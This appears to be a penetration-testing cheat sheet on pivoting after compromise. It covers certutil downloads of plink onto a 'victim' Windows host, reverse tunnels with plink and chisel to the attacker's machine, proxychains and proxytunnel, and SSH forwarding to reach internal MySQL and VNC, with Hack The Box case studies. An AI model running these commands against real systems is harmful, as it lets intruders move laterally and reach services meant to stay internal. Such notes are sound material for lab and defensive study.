 - [Windows](#Windows)
- [Linux](#Linux)

# Windows

- edit /etc/ssh/sshd_config
```
uncomment PermitRootLogin and set as yes
```

#### Plink
- Download Plink.exe file

- Put plink on victim windows machine
```
certutil -urlcache -f http://[your_ip]/plink.exe plink.exe
```

- run plink on on windows machine 
plink.exe -l root -pw <pass> -R 445:127.0.0.1:445 <your_linux_ip>
  
  
#### chisel
- Download chisel
https://github.com/jpillora/chisel/releases/tag/v1.7.4


- Run chisel server on your linuxmachine: 
```
./chisel server -p 9999 --reverse -v
```

- Run chisel client on victim windows machine:
```
chisel.exe client <your_linux_ip>:9000 R:widnows_service_port:127.0.0.1:widnows_service_port

e.g:
chisel.exe client 10.10.14.49:9999 R:8888:127.0.0.1:8888
```

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Linux

#### SSH port forwarding
In case exploit can not be run locally on target machine, you can frowarded the port via SSH to your local machine

#### use squid proxy
- proxytunnel -p 192.168.0.115:3128 -d 127.0.0.1:22 -a 1234
#### e.g:
- ssh name@127.0.0.1 -p 1234






### Proxychains 
#### use squid proxy
- nano /etc/proxychains.conf
#### add:
- http 192.168.213.141 3128

#### scan ports via tunnel
- proxychain nmap -sT -p 22 127.0.0.1

#### ssh login via proxychains
- proxychains ssh name@127.0.0.1

### SSH port forwarding
In case exploit can not be run locally on target machine, you can frowarded the port via SSH to your local machine
```
ssh [username]@[victim_ip] -L [your_local_port]:127.0.0.1:[victim_service_port] 

ssh [username]@[victim_ip] -R [your_local_port]:127.0.0.1:[victim_service_port] 
```

Exploit code can be run on local machine

#### case study
##### on victim machine
- check service port *netstat -nl*
- ssh -R 4444:127.0.0.1:3306 root@192.168.100.104

##### on yours kali machine
mysql -u root -h 127.0.0.1 -P 4444

#### case study 2 (TightVNC)
```
- check ps -aux
  result: Xvnc :1 -desktop X -httpd /usr/../tightvnc/classes
- check netstat -an
  result: 127.0.0.1.5901
- port forwarding from local machine
  ssh -L 5901:127.0.0.1:5901 username@10.10.10.84
  pass password
- vncviewer 127.0.0.1:5901 -passwd secret_file_with_password
```

#### case study 3 (htb poison vnc)
```
on your machine:
ssh -L 5902:localhost:5901 charix@10.10.10.84
in second window:
vncviewer -passwd secret 127.0.0.1:5902
```

### Port forwarding via ncat
- ncat -u -l  [port1] -c  'ncat -u -l [port2]'
  - Now all the connections for port [port1] will be forwarded to port [port2]
  
  
